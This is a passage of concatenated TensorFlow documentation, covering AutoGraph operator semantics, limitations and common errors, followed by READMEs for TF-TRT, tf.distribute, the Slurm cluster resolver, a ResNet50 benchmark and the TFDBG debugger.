AutoGraph uses alternate methods to parse the source code more robustly, but
in rare cases it may be unable to distinguish between nested lambda functions
of identical signatures.

Example:

```
l = lambda x: lambda x: x + 1
```

AutoGraph raises an error for the code above because the parser cannot
distinguish between the two function signatures. To work around this limitation,
use distinct argument names:

```
l = lambda outer_x: lambda inner_x: inner_x + 1
```

##### Before TF 2.3 and older

In older versions of TensorFlow, the loading code for lambda functions is not
robust. Follow the guidance below to avoid errors.

Important: Declare lambda functions on single lines to make sure their source
code loads correctly.

The Python runtime exposes the source code of lambda functions, however it
may omit parts of the actual body, or include surrounding code. This may make it
impossible to parse the exact source code of the lambda function.

For example, consider the declaration of a lambda function below:

```
foo = (
    lambda y: lambda x: x * y
    - y
)
```

The Python runtime will report the following source code for `foo`:

```
>>> inspect.getsource(foo)
'    lambda y: lambda x: x*y \n'
```

In other cases, the source code it returns is not valid Python code, resulting
in an error:

```
foo = (
 'bar',
 lambda: x)
```

The reported source code contains an invalid token `)`:

```
>>> inspect.getsource(foo[1])
' lambda: x)\n'
```

This shortcoming can be avoided by declaring the lambda in a single assignment
or return value, and avoiding placing it inside parentheses which could cause
auto-formatting tools to break it into multiple lines:


```
# Good - single assignment
my_lambda = lambda: x

# Good - single return
return lambda x, y: x*y - y
```

```
# Bad - wrapped in parentheses
my_lambda = (lambda x, y: x * y - y)

# Bad - inlined in another expression
foo(lambda x, y: x + y, bar)
```
# AutoGraph reference

[Index](index.md)

## Operator semantics

### Definition

This section describes the semantics of the operators used in code generated by
AutoGraph. Understanding these operators will make it easier to read the
generated code.

AutoGraph operators are Python functions that replace certain Python constructs
in the generated code.

For example, the following statement:

```
if x:
  y = 1
else:
  y = 2
```

Will result in the following generated code:

```
def get_state():
    return (y,)

def set_state(vars_):
    nonlocal y
    (y,) = vars_

def if_body():
    nonlocal y
    y = 1

def else_body():
    nonlocal y
    y = 2
y = ag__.Undefined('y')
ag__.if_stmt(ag__.ld(x), if_body, else_body, get_state, set_state, ('y',), 1)
```

In the example above, `ag__.if_stmt`, `ag__.ld` and `ag__.Undefined` are all
AutoGraph operators.

The source of truth for these operators is the [source code](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/python/autograph/operators)
. All public symbols exported by that module is considered an operator.

### Type-based dispatch

AutoGraph replaces Python statements with operators in order to enable
type-based dispatch. If Python didn't support things like `__add__`, then
AutoGraph would already have an `add` operator.

Dispatch means simply that the operator does different things based on the type
of input.

Generally, the dispatch follows these rules:
 * if the input is a type that would execute normally under Python (this is also
   referred to as "the default path"), then AutoGraph always reverts to the
   corresponding Python operator. For example, `ag__.not(False)` always has the
   same result as `not False`.
 * if the input is a TensorFlow type, then AutoGraph typically dispatches to an
   equivalent TensorFlow API, performs additional checks or just raises an
   error. For example, `ag__.eq(tf.constant(1), tf.constant(2))` has the same
   result as `tf.math.equal(tf.constant(1), tf.constant(2))`.

The first rule above means that if you convert normal, non-TensorFlow code with
AutoGraph and call it with non-TensorFlow inputs, executing the generated code
should be no different than executing the original.

### Functional form

All AutoGraph operators use pure functional forms. This may sometimes mean that
expressions which normally appear bare in Python, are wrapped inside a function
(also known as thunk). If a Python statement appears as just `foo`, then a
corresponding thunk is `lambda: foo`.

### Operator list

#### Conditional expressions

[Source](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/autograph/operators/conditional_expressions.py)

##### `if_exp`

[Source](https://github.com/tensorflow/tensorflow/blob/bacd16a95d5a6f3d5081e3d56c515671c784d289/tensorflow/python/autograph/operators/conditional_expressions.py#L27)

The Python conditional statement: `foo if bar else baz`.

Args:
  cond: expression condition; same as `cond` in `_ if cond else _`.
  if_true: true value (as thunk); same as `lambda: x` in `x if _ else _`.
  if_false: false value (as thunk); same as `lambda: x` in `_ if _ else x`.
  expr_repr: human readable string representing `cond`. Used for error messages.

Example:

```
true_val if cond else false_val
```

```
ag__.if_expr(cond, lambda: true_val, lambda: false_val, 'cond')
```

Dispatch on `cond`:

*   default: to Python if-else statement.
*   tf.Tensor: to `tf.cond`, checking that `true_val` and `false_val` have
    compatible shape and type.

#### Control flow

[Source](https://github.com/tensorflow/tensorflow/blob/bacd16a95d5a6f3d5081e3d56c515671c784d289/tensorflow/python/autograph/operators/control_flow.py)

Unlike Python, AutoGraph control flow operators use explicit control flow
variables, which include all symbols which are modified by the control flow.

For example, the code below has a single loop variable, `x`:

```
while x < 3:
  x = x + 1
```

In addition, control flow that is dispatched to non-Python implementation is
subject to restrictions of the respective implementations. For example,
`tf.while_loop` requires that all loop variables have supported types (e.g.
`Tensor` of consistent shape and dtype).

##### `for_stmt`

[Source](https://github.com/tensorflow/tensorflow/blob/bacd16a95d5a6f3d5081e3d56c515671c784d289/tensorflow/python/autograph/operators/control_flow.py#L369)

For loop: `for var in target: body`, extended with a per-iteration
condition to handle early termination (e.g. due to a `break`).

Args:

*   iter_: iteration target; same as `n` in `for _ in n`.
*   extra_test: optional extra per-iteration condition (as thunk).
*   body: loop body (as unary thunk); same as `def body(i): <b>` in `for i in _:
    <b>`.
*   get_state: returns the current value of the loop variables
*   set_state: sets new values into the loop variables
*   symbol_names: human readable string representing each loop variable. Used
    for error messages.
*   opts: additional, implementation-specific, keyword arguments.

Example:

```
for i in range(3):
  j = j + i
```

```
def get_state():
    return (j,)

def set_state(vars_):
    nonlocal j
    (j,) = vars_

def loop_body(itr):
    nonlocal j
    i = itr
    j = j + i

ag__.for_stmt(range(3), None, loop_body, get_state, set_state, ('j',), {})
```

Example (using extra_test):

```
for i in range(3):
  if i > 2:
    break
  j = j + i
```

```
def get_state():
    return (j,)

def set_state(vars_):
    nonlocal j
    (j,) = vars_

def loop_body(itr):
    nonlocal j
    i = itr
    j = j + i

def extra_test():
    return not(i <= 2)

ag__.for_stmt(range(3), extra_test, loop_body, get_state, set_state, ('j',), {})
```

Dispatch on `iter_`:

*   default: to Python for loop (accounting for `extra_test`).
*   `tf.Tensor` produced by `tf.range`: to `tf.while_loop`, removing the
    `tf.range`.
*   `tf.Tensor`, `tf.RagedTensor`: to `tf.while_loop`, checking the loop vars
    for consistency. `opts` forwarded to `tf.while_loop`. Iterates over the
    outermost dimension of the tensor (similar to `tf.map_fn`).
*   `tf.data.Dataset`: to `tf.data.Dataset.take_while`, checking the loop vars
    for consistency.
*   `tf.data.Iterator`, `tf.distribute.Iterator`: to `tf.while_loop` called on
    the iterator's `get_next_as_optional`, checking the loop vars for
    consistency.
*   `tf.distribute.Iterable`: to `tf.distribute.Iterable.reduce`.

##### `if_stmt`

[Source](https://github.com/tensorflow/tensorflow/blob/bacd16a95d5a6f3d5081e3d56c515671c784d289/tensorflow/python/autograph/operators/control_flow.py#L1125)

If statement: `if cond: body else: orelse-body`.

Args:

*   cond: if condition; same as `cond` in `if cond`.
*   body: true branch (as unary thunk); same as `def body(): <b>` in `if _:
    <b>`.
*   orelse: false branch (as unary thunk); same as `def body(): <b>` in `if _:
    <b>`.
*   get_state: returns the current value of the conditional variables
*   set_state: sets new values into the conditional variables
*   symbol_names: human readable string representing each conditional variable.
    Used for error messages.
*   nouts: number of output conditional variables. Not all conditional variables
    are outputs - some are just inputs. The first nouts values in get_state and
    set_state are the conditional outputs.

Example:

```
if k > 1:
  j = j + i
```

```
def get_state():
    return (j, i)

def set_state(vars_):
    nonlocal j, i
    (j, i) = vars_

def body():
    nonlocal j, i
    j = j + i

def orelse():
    pass

ag__.if_stmt(k > 1, body, orelse, get_state, set_state, ('j', 'i'), 1)
```

Dispatch on `cond`:

*   default: to Python if statement.
*   `tf.Tensor`: to `tf.cond`, removing the `tf.range`.

##### `while_stmt`

[Source](https://github.com/tensorflow/tensorflow/blob/bacd16a95d5a6f3d5081e3d56c515671c784d289/tensorflow/python/autograph/operators/control_flow.py#L811)

While loop: `while cond: body`.

Args:

*   test: loop condition (as thunk); same as `def test(): cond` in `while cond`.
*   body: loop body (as thunk); same as `def body(): <b>` in `while _: <b>`.
*   get_state: returns the current value of the loop variables
*   set_state: sets new values into the loop variables
*   symbol_names: human readable string representing each loop variable. Used
    for error messages.
*   opts: additional, implementation-specific, keyword arguments.

Example:

```
while j > 10:
  j = j + i
```

```
def get_state():
    return (j,)

def set_state(vars_):
    nonlocal j
    (j,) = vars_

def loop_test():
    nonlocal j
    return j > 10

def loop_body():
    nonlocal j
    j = j + i

ag__.while_stmt(loop_test, loop_body, get_state, set_state, ('j',), {})
```

Dispatch on return type of `test`:

*   default: to Python while loop.
*   `tf.Tensor`: to `tf.while_loop`.

#### Data structures

[Source](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/autograph/operators/data_structures.py)

##### `list_append`

[Source](https://github.com/tensorflow/tensorflow/blob/bacd16a95d5a6f3d5081e3d56c515671c784d289/tensorflow/python/autograph/operators/data_structures.py#L171)

List append operation: `l.append(x)`. Callers should assume that the list
argument is modified, if that is possible.

Args:

*   list_: a list-like value.
*   x: value to append to list.

Returns:

*   same as list_, with an appended value.

Example:

```
l.append(x)
```

```
l = ag__.list_append(l, x)
```

Dispatch on `list_`:

*   default: to `list_.append`.
*   `tf.Tensor`: to `tf.raw_ops.tensor_list_push_back`.
*   `tf.TensorArray`: to `tf.TensorArray.write`.

##### `list_pop`

[Source](https://github.com/tensorflow/tensorflow/blob/bacd16a95d5a6f3d5081e3d56c515671c784d289/tensorflow/python/autograph/operators/data_structures.py#L235)

List pop operation: `l.pop(i)`. Callers should assume that the list
argument is modified, if that is possible.

Args:

*   list_: a list-like value.
*   i: optional index to remove from.
*   opts: optional, implementation-specific arguments.

Returns:

*   new_list: same as list_, with the value removed
*   x: the value that was removed

Example:

```
x = l.pop()
```

```
l, x = ag__.list_pop(l)
```

Dispatch on `list_`:

*   default: to `list_.pop`.
*   `tf.Tensor`: to `tf.raw_ops.tensor_list_pop_back`.

##### `list_stack`
##### `ListPopOpts`
##### `ListStackOpts`
##### `new_list`

### Exceptions

##### `assert_stmt`

### Boolean

##### `and_`
##### `eq`
##### `not_`
##### `not_eq`
##### `or_`

### Python built-ins

##### `float_`
##### `int_`
##### `len_`
##### `print_`
##### `range_`

### Slicing

##### `get_item`
##### `GetItemOpts`
##### `set_item`

### Variables

##### `ld`
##### `ldu`
##### `Undefined`
##### `UndefinedReturnValue`
# AutoGraph reference

[Index](index.md)

## Functions and function calls

Typically, AutoGraph converts one function at a time. If a function calls other
functions, the called function will be converted recursively, as described
below.

### Function calls

AutoGraph rewrites all function calls with a special wrapper that may convert
the called function at runtime.

For example, the function call below:

```
f(x, y, z=1)
```

Is converted to code that schematically looks like this:

```
ag__.converted_call(f, ..., (x, y), {'z': 1}, ...)
```

All calls are rewritten, including calls to other types of callables, builtin
functions, etc.

If the originally called function is not converted, AutoGraph simply
forwards the call to it, so that the wrapper is functionally equivalent with
the original function call.

If the originally called function is converted, then the conversion is performed
first and the converted function is called instead.

Note: a caching mechanism prevents the same function from being converted
multiple times. This mechanism ensures that functions calls made with different
[global or free variables](https://docs.python.org/3/reference/executionmodel.html#binding-of-names)
are handled correctly.

#### Function conversion rules

The following types of functions are not converted:

*   functions already converted
*   functions defined in a allowlisted module (see autograph/core/config.py)
*   non-Python functions (such as native bindings)
*   `print`, `pdb.set_trace`, `ipdb.set_trace`
*   most built-in functions (exceptions are listed in
    autograph/operators/py_builtins.py)
*   constructors
*   functions without source code attached (prints a warning)(see
    [limitations](limitations.md))
*   generator functions (prints a warning)
*   iterator protocol methods (`__next__`, `__iter__`)
*   context manager methods (`__enter__`, `__exit__`)

When AutoGraph encounters a function that it cannot convert outside of this
list, it prints a warning.

### Nested functions

Functions nested inside a function converted by AutoGraph are converted
at the same time as the function containing them. If the nested function is
returned, a converted version of it is returned.
# AutoGraph reference

[Index](index.md)

## Common AutoGraph errors

### "WARNING: AutoGraph could not transform `<name>`"

This warning is output when AutoGraph could not convert a function, for an
unexpected reason. The error message contains the reason why the function could
not be converted, as well as guidance on how to proceed next.

The exact error message may vary from version to version but in general, the
cause of the failure appears somewhere in the text, for example as
"Cause: could not get source code" or "Original error: could not get source
code".

Note: AutoGraph does not always output a warning. For example, constructors
are silently called without conversion.

When this warning is printed, the code returned by AutoGraph still executes, but
the functions indicated in the warning will be executed as they are, without
conversion. If the functions contain pure Python or graph code (for example,
they have no Tensor-dependent control flow), then the code is likely to still
run without error. However, if it contains any constructs that are only
supported in AutoGraph, expect subsequent exceptions.

Note: the warning is output to the [abseil](https://github.com/abseil/abseil-py)
logger, with `WARNING` severity. To direct these warnings to `stdout`, use
`tf.autograph.set_verbosity(0, True)`.

### "Unable to locate the source code" or "Source not found" errors

Newer versions of AutoGraph raise a `ConversionError`. Older versions print a
warning. In both cases, a similar message about finding the source code is
included.

These errors are raised when AutoGraph is unable to find the source code of
functions it needs to transform. See [Limitations](limitations.md) for more
details.

### "WARNING: Large unrolled loop detected"

This warning is output when AutoGraph detects a `for` or `while` loop that
creates TensorFlow ops and which has a large number of iterations and creates.

This usually indicates a loop that was intended to run as a `tf.while_loop`, but
instead runs as a Python loop.

For example, a training loop might mistakenly iterate over a Python `range`,
instead of `tf.range`:

```
num_steps = 10000
step = tf.constant(0)
for i in range(num_steps):
  step += 1
  train_step(model)
```

Another example is when using custom generators which AutoGraph does not
support, even if they wrap over supported iterators like Datasets:

```
def my_iterator(ds):
  for data in ds:
    yield data

# Custom iterators always dispatch to a Python for loop.
for x in my_iterator(tf.data.Dataset.range(10)):
  tf.print(x)
```

Note: This verification is only performed when `__debug__` is `True`.

Note: the warning is output to the [abseil](https://github.com/abseil/abseil-py)
logger, with `WARNING` severity. To direct these warnings to `stdout`, use
`tf.autograph.set_verbosity(0, True)`.

### "OperatorNotAllowedInGraphError: using a `tf.Tensor` as a Python `bool`"

This exception is raised whenever a `tf.Tensor` is type-cast as a Python `bool`,
in a context where eager execution is not active. The exception is only raised
when graph execution is active, for example inside a `@tf.function` with
AutoGraph turned off.

**When AutoGraph is on**, it can be caused by:
  * placing a Tensor-dependent `break`, `continue` or `return` inside a Python
    loop (see example below)
  * attempting to use a `tf.Tensor` in a list comprehension, by iterating over
    it or using it in a condition)

A typical example of mixing Python and TF control flow in an incompatible way
is:

```
for i in range(3):  # Python loop
  if i > tf.constant(0):  # TF conditional
    break  # raises OperatorNotAllowedInGraphError
```

The way these errors are typically fixed is by ensuring all control flow is
TF control flow:

```
for i in tf.range(3):  # TF loop
  if i > tf.constant(0):  # TF conditional
    break  # works
```

**When AutoGraph is off**, it can be caused by using a `tf.Tensor` value as:

  * the condition of an `if` or `while` statement: `if <tensor>:`
  * the argument in a logical expression: `tensor and another_tensor`
  * the argument to the `bool` built-in: `bool(tensor)`

Note: These operations are allowed when executing eagerly.

When encountering this error, make sure that the function is either decorated
with `@tf.function`, or called from another function decorated in this way. Also
look at the console and logging output for conversion warnings (see the section
above).

### "OperatorNotAllowedInGraphError: iterating over `tf.Tensor`"

This exception is raised whenever you try to iterate over a `tf.Tensor`,
in a context where eager execution is not active. The exception is only raised
when graph execution is active, for example inside a `@tf.function` with
AutoGraph turned off. It can be caused by using a `tf.Tensor` value as:

  * the iterated of a `for` statement: `for i in tensor:`
  * the argument to the `iter` built-in: `iter(tensor)`

Note: These operations are allowed when executing eagerly.

This exception is similar to the previous example, and has similar causes and
remedies.

### "InaccessibleTensorError: The tensor `<name>` is defined in another function or code block"

This exception is common to code which attempts to obtain values calculated
within a `tf.cond`, `tf.while_loop`, or another `@tf.function` without using
functional style or through mutable collections. See
[Capturing External Symbolic Tensors](https://www.tensorflow.org/guide/function#all_outputs_of_a_tffunction_must_be_return_values)
and [Limitations](limitations.md) for more details.

### "StagingError: in converted code"

This exception is used by AutoGraph to wrap exceptions with custom constructors
that it cannot re-raise with the original type. See
[Error handling](error_handling.md) for more details. If your code uses custom
exceptions, expect them to be wrapped by this exception.

### "Unable to identify source code of lambda function"

This error usually appears in the context of a conversion warning. It indicates
that a lambda function could not be parsed (see [Limitations](limitations.md)).

This type of errors can usually be avoided by creating lambda functions in
separate simple assignments, for example:

```
l = lambda <args>: <body>
```
# AutoGraph reference

[Index](index.md)

## Introduction

### Terminology

Typically, AutoGraph operates by converting a function into a new function with
new semantics.

```
def f(...):
  ...

converted_f = tf.autograph.to_graph(f)
```

In TensorFlow 2, AutoGraph is used to convert functions before they are being
traced, when using the `tf.function` API. For example, the following code:

```
def f(...):
  ...

graph_f = tf.function(f)
```

is roughly equivalent to:

```
converted_f = tf.autograph.to_graph(f)
graph_f = tf.function(autograph=False)(converted_f)
```

For the remainder of this document:

 * **converted functions** are functions converted by AutoGraph
 * **graph functions** are functions compiled with `tf.function`

Graph functions are usually also converted, unless specified otherwise.

### Safe behavior

The semantics described below can be summarized as:

 1. code should either produce the same results as running it in Eager mode, or
   fail with error.
 2. TF 1.* graph code should produce the same graph as running it directly in
   graph mode.

### Python semantics

In general, AutoGraph does not change the semantics of error-free Python.
In special circumstances, AutoGraph may also preserve the semantics of code that
raises error as well. Semantics are preserved in the sense of the
[as-if rule](https://en.wikipedia.org/wiki/As-if_rule).

More specifically, code that would not be legal TensorFlow Graph code may become
legal when converted.

For example, consider the following function and the corresponding converted
function:

```
def f(x):
  if x > 0:
    return x
  return -x

converted_f = tf.autograph.to_graph(f)
```

If `f` executes without error, then the `converted_f` has identical results:

```
>>> f(3)                               # Runs without error
3
>>> converted_f(3)                     # Identical result
3
```

### TensorFlow Eager semantics

If a function is called with `Tensor` arguments in Eager execution mode, it has
certain semantics that are different from the Graph execution semantics.

For example, the function below produces different results when executed in
Eager and Graph modes:

```
def f(x):
  if x > 0:
    return x
  return -x

# Use tf.function to run code as a TensorFlow Graph.
unconverted_graph_f = tf.function(f, autograph=False)
graph_f = tf.function(f, autograph=True)
```

```
>>> f(tf.constant(3))                      # Valid in Eager
<tf.Tensor ... numpy=3>

>>> unconverted_graph_f(tf.constant(3))    # Error - not legal Graph code
TypeError: Using a `tf.Tensor` ...
```

AutoGraph transfers the Eager semantics to the graph function:

```
>>> graph_f(tf.constant(3))                # Valid in AutoGraph
<tf.Tensor ... numpy=3>
```

### Subset of Eager

AutoGraph currently supports only a subset of Eager. For example, list operation
semantics are not supported:

```
def f(n):
  l = []
  for i in tf.range(n):
    l.append(i)
  return l

converted_f = tf.autograph.to_graph(f)
```

```
>>> f(3)                               # Valid in Eager
[1, 2, 3]
>>> converted_f(3)                     # Not valid in AutoGraph (by default)
<<error>>
```

### Experimental features

AutoGraph supports additional semantics which are not yet stable. This includes
for example support for list semantics applied to `TensorArray`:

```
def f(n):
  l = tf.TensorArray(dtype=tf.int32, size=0, dynamic_size=True)
  for i in tf.range(n):
    l.append(i)
  return l

converted_f = tf.autograph.to_graph(f)
experimental_converted_f = tf.autograph.to_graph(
    f, experimental_optional_features=tf.autograph.experimental.Feature.LISTS)
```

```
>>> converted_f(3)                     # Not valid in AutoGraph (by default)
<<error>>
>>> experimental_converted_f(3)        # Valid
<<TensorArray object>>
```
# Using TensorRT in TensorFlow (TF-TRT)

This module provides necessary bindings and introduces `TRTEngineOp` operator
that wraps a subgraph in TensorRT. This module is under active development.

## Installing TF-TRT

Currently TensorFlow nightly builds include TF-TRT by default, which means you
don't need to install TF-TRT separately. You can pull the latest TF containers
from docker hub or install the latest TF pip package to get access to the latest
TF-TRT.

If you want to use TF-TRT on NVIDIA Jetson platform, you can find the download
links for the relevant TensorFlow pip packages here:
https://docs.nvidia.com/deeplearning/dgx/index.html#installing-frameworks-for-jetson

## Installing TensorRT

In order to make use of TF-TRT, you will need a local installation of TensorRT.
Installation instructions for compatibility with TensorFlow are provided on the
[TensorFlow GPU support](https://www.tensorflow.org/install/gpu) guide.

## Examples

You can find example scripts for running inference on deep learning models in
this repository: https://github.com/tensorflow/tensorrt

We have used these examples to verify the accuracy and performance of TF-TRT.
For more information see
[Verified Models](https://docs.nvidia.com/deeplearning/frameworks/tf-trt-user-guide/index.html#verified-models).

## Documentation

[TF-TRT documentation](https://docs.nvidia.com/deeplearning/frameworks/tf-trt-user-guide/index.html)
gives an overview of the supported functionalities, provides tutorials and
verified models, explains best practices with troubleshooting guides.

## Tests

TF-TRT includes both Python tests and C++ unit tests. Most of Python tests are
located in the test directory and they can be executed using `bazel test` or
directly with the Python command. Most of the C++ unit tests are used to test
the conversion functions that convert each TF op to a number of TensorRT layers.

## Compilation

In order to compile the module, you need to have a local TensorRT installation
(libnvinfer.so and respective include files). During the configuration step,
TensorRT should be enabled and installation path should be set. If installed
through package managers (deb,rpm), configure script should find the necessary
components from the system automatically. If installed from tar packages, user
has to set path to location where the library is installed during configuration.

```shell
bazel build --config=cuda --config=opt //tensorflow/tools/pip_package:build_pip_package
bazel-bin/tensorflow/tools/pip_package/build_pip_package /tmp/
```

# Tensorflow Distribute Libraries

## Overview

tf.distribute.Strategy is a TensorFlow API to distribute training across
multiple GPUs, multiple machines or TPUs. Using this API, users can distribute
their existing models and training code with minimal code changes.

It can be used with TensorFlow's high level APIs, tf.keras and tf.estimator,
with just a couple of lines of code change. It does so by changing the
underlying components of TensorFlow to become strategy-aware.
This includes variables, layers, models, optimizers, metrics, summaries,
and checkpoints.

## Documentation

[Distributed Training Guide](https://www.tensorflow.org/guide/distributed_training)

[Distributed Training With Keras Tutorial](https://www.tensorflow.org/tutorials/distribute/keras)

[Distributed Training With Custom Training Loops Tutorial](https://www.tensorflow.org/tutorials/distribute/custom_training)

[Multiworker Training With Keras Tutorial](https://www.tensorflow.org/tutorials/distribute/multi_worker_with_keras)

[Multiworker Training With Estimator Tutorial](https://www.tensorflow.org/tutorials/distribute/multi_worker_with_estimator)

[Save and Load with Distribution Strategy](https://www.tensorflow.org/tutorials/distribute/save_and_load)

## Simple Examples

### Using compile fit with GPUs.

```python
# Create the strategy instance. It will automatically detect all the GPUs.
mirrored_strategy = tf.distribute.MirroredStrategy()

# Create and compile the keras model under strategy.scope()
with mirrored_strategy.scope():
  model = tf.keras.Sequential([tf.keras.layers.Dense(1, input_shape=(1,))])
  model.compile(loss='mse', optimizer='sgd')

# Call model.fit and model.evaluate as before.
dataset = tf.data.Dataset.from_tensors(([1.], [1.])).repeat(100).batch(10)
model.fit(dataset, epochs=2)
model.evaluate(dataset)
```

### Custom training loop with TPUs.

```python
# Create the strategy instance.
tpu_strategy = tf.distribute.TPUStrategy(resolver)


# Create the keras model under strategy.scope()
with tpu_strategy.scope():
  model = keras.layers.Dense(1, name="dense")

# Create custom training loop body as tf.function.
@tf.function
def train_step(iterator):
  def step_fn(inputs):
    images, targets = inputs
    with tf.GradientTape() as tape:
      outputs = model(images)
      loss = tf.reduce_sum(outputs - targets)
    grads = tape.gradient(loss, model.variables)
    return grads

  return tpu_strategy.run(
      step_fn, args=(next(iterator),))

# Run the loop body once on at dataset.
dataset = tf.data.Dataset.from_tensors(([1.], [1.])).repeat(100).batch(10
input_iterator = iter(tpu_strategy.experimental_distribute_dataset(dataset))
train_step(input_iterator)
```

## Testing

Tests here should cover all distribution strategies to ensure feature parity.
This can be done using the test decorators in `strategy_combinations.py`.

# Slurm Cluster Resolver

The Slurm Cluster Resolver resolves cluster specification for distributing
TensorFlow work launched on HPC systems running on Slurm. This implementation is
able to handle homogeneous and heterogeneous tasks as long as the number of GPUs
per node and task are the same. This means on nodes with 4 GPUs each it will be
possible to allocate 4 processes on node A and only 2 on node B. The resolution
is done by determining job configuration through a number of Slurm variables and
can be overwritten by user input. By default everything is determined from the
Slurm environment, hence for most uses case no manual setting of parameters is
required.

## How it works

`SlurmClusterResolver` reads the environment variables that are set inside a job
step launched by Slurm. This means it will only work correctly for applications
launched via `srun`.

The process ID/rank is extracted from environment variable `SLURM_PROCID` and
the total number of tasks launched is extracted from `SLURM_STEP_NUM_TASKS`. The
hostnames are resolved by inspection `SLURM_STEP_NODELIST`. The number of tasks
per node is extracted from `SLURM_STEP_TASKS_PER_NODE`, unless a value is
specified by user. By using this variable heterogeneous task distributions are
possible. The user can set `tasks_per_node` to a single integer for homogeneous
tasks or a dictionary mapping node names to number of tasks for heterogeneous
distributions. However setting this is **NOT** recommended as there is a chance
it makes `SLURM_PROCID` be wrong.

A base port can be specified by user and in case there are more than one task
launched per node the port number will be incremented for each additional tasks
on that node. However a reasonable default is used.

The number of GPUs present on each node and number of GPUs for each tasks are
automatically detected. This is done by checking for `CUDA_VISIBLE_DEVICES`
first (which is set by Slurm to a list of GPUs for the current node) and has a
fallback to using `nvidia-smi`. If this doesn't work or non-NVIDIA GPUs are used
those 2 values have to be specified by the user. By default allocated GPUs will
be automatically exposed to processes according to specification by setting
`CUDA_VISIBLE_DEVICES`.

## Basic example

-   Slurm allocation in shell `salloc --nodes=2 -t 01:30:00 --ntasks-per-node=2
    --gres=gpu:k80:4 --exclusive`
-   Run the example `srun python tf_example.py`
-   Creating cluster in Python `import tensorflow as tf cluster_resolver =
    tf.distribute.cluster_resolver.SlurmClusterResolver() strategy =
    tf.distribute.experimental.MultiWorkerMirroredStrategy(cluster_resolver=cluster_resolver)
    with strategy.scope(): # Load and compile model and data`

The above example will allocate 4 jobs on 2 nodes with each node having 2 jobs
and 4 GPUs. `cluster_resolver.cluster_spec()` will return a cluster
specification object in protobuf format with the following value (host names may
vary): `job { name: "worker" tasks { key: 0 value: "t02n13:8888" } tasks { key:
1 value: "t02n13:8889" } tasks { key: 2 value: "t02n41:8888" } tasks { key: 3
value: "t02n41:8889" } }`

The `job_name` will be `worker` for all nodes and `task_index` will be `0` to
`3`. Also GPUs will be allocated automatically, so the first job on each node
will see GPU 0 and 1, and the second GPU 2 and 3.

## Advanced example

-   Assuming the same job parameters (`salloc` & `srun`) as above
-   Creating cluster in Python ``` cluster_resolver =
    tf.contrib.cluster_resolver.SlurmClusterResolver( {'ps': 1, 'worker': 3},
    port_base=1337, tasks_per_node=2, gpus_per_node=2, gpus_per_task=1,
    auto_set_gpu=False)

cluster = cluster_resolver.cluster_spec() job_name, task_index =
cluster_resolver.get_task_info() ```

In this case 1 parameter server job and 3 worker jobs are used. The resulting
protobuf specification will look similar to this: `job { name: "ps" tasks { key:
0 value: "t02n13:1337" } } job { name: "worker" tasks { key: 0 value:
"t02n13:1338" } tasks { key: 1 value: "t02n41:1337" } tasks { key: 2 value:
"t02n41:1338" } }`

The value of `job_name` will be `ps` for `t02n13:1337` and `worker` for all
others. There will be no GPU allocation done by the cluster resolver, so this
has to be done manually which is useful if e.g. GPUs 0 should go to the first
process and GPU 3 to the second process on each node. Also note that only 1 GPU
will be used per task.

## Extension points

The class `SlurmClusterResolver` provides some methods that are meant to be
overwritten by deriving classes:

-   `_resolve_own_rank`
-   `_resolve_num_tasks`
-   `_resolve_hostlist`
-   `_resolve_task_configuration`

    Those can be used to implement a cluster resolver that gets information from
    a different source, e.g. via MPI, a file or other environment variables. See
    the documentation of these methods on what to return.
# Cluster Resolvers

Cluster Resolvers are a new way of specifying cluster information for distributed execution. Built on top of existing `ClusterSpec` framework, Cluster Resolvers allow users to simply specify a configuration and a cluster management service and a `ClusterResolver` will automatically fetch the relevant information from the service and populate `ClusterSpec`s.

`ClusterResolvers` are designed to work well with `ManagedTrainingSession` and `ClusterSpec` propagation so that distributed training sessions remain robust in the face of node and network failures.
Image classification using the ResNet50 model described in
[Deep Residual Learning for Image Recognition](https://arxiv.org/abs/1512.03385).

Contents:

- `resnet50.py`: Model definition
- `resnet50_test.py`: Sanity unittests and benchmarks for using the model with
  eager execution enabled.
- `resnet50_graph_test.py`: Sanity unittests and benchmarks when using the same
  model code to construct a TensorFlow graph.

# Benchmarks

Using a synthetic data, run:

```
# Using eager execution
python resnet50_test.py --benchmarks=.

# Using graph execution
python resnet50_graph_test.py --benchmarks=.
```

The above uses the model definition included with the TensorFlow pip
package. To build (and run benchmarks) from source:

```
# Using eager execution
bazel run -c opt --config=cuda :resnet50_test -- --benchmarks=.

# Using graph execution
bazel run -c opt --config=cuda :resnet50_graph_test -- --benchmarks=.
```

(Or remove the `--config=cuda` flag for running on CPU instead of GPU).

On October 31, 2017, the benchmarks demonstrated comparable performance
for eager and graph execution of this particular model when using
a single NVIDIA Titan X (Pascal) GPU on a host with an
Intel Xeon E5-1650 CPU @ 3.50GHz and a batch size of 32.

| Benchmark name                           | batch size    | images/second |
| ---------------------------------------  | ------------- | ------------- |
| eager_train_gpu_batch_32_channels_first  |            32 |           171 |
| graph_train_gpu_batch_32_channels_first  |            32 |           172 |
# TensorFlow Debugger (TFDBG)

[TOC]

TensorFlow Debugger (TFDBG) is a specialized debugger for TensorFlow's computation
runtime. TFDBG in TensorFlow 2.x provides access to:

- Tensor values during [eager](https://www.tensorflow.org/guide/eager) and
  [graph](https://www.tensorflow.org/api_docs/python/tf/Graph) execution.
- Structure of computation graphs
- Source code and stack traces associated with these execution and
  graph-execution events.

## How to use TFDBG?

TFDBG in TensorFlow 2.x consists of a Python API that enables dumping debug data
to the file system (namely `tf.debugging.experimental.enable_dump_debug_info()`)
and a TensorBoard-based GUI that provides an interactive visualization of the
debug data (i.e., *TensorBoard Debugger V2 Plugin*).

`enable_dump_debug_info()` offers a number of levels of tensor-value
instrumentation varying in the amount of information dumped and the incurred
performance overhead.

See the API documentation of
[`tf.debugging.experimental.enable_dump_debug_info()`](https://www.tensorflow.org/api_docs/python/tf/debugging/experimental/enable_dump_debug_info)

For a detailed walkthrough of the GUI TensorBoard Debugger V2 Plugin, see
[Debugging Numerical Issues in TensorFlow Programs Using TensorBoard Debugger
V2](https://www.tensorflow.org/tensorboard/debugger_v2).

## Known issues and limitations

1.  Using `tf.debugging.experimental.enable_dumpp_debug_info()` leads to
    performance penalty on your TensorFlow program. The amount of slowdown
    varied depending on whether you are using TensorFlow on CPU, GPUs, or TPUs.
    The performance penalty is the highest on TPUs, followed by GPUs, and lowest
    on CPU.
2.  `tf.debugging.experimental.enable_dump_debug_info()` is currently
    incompatible with
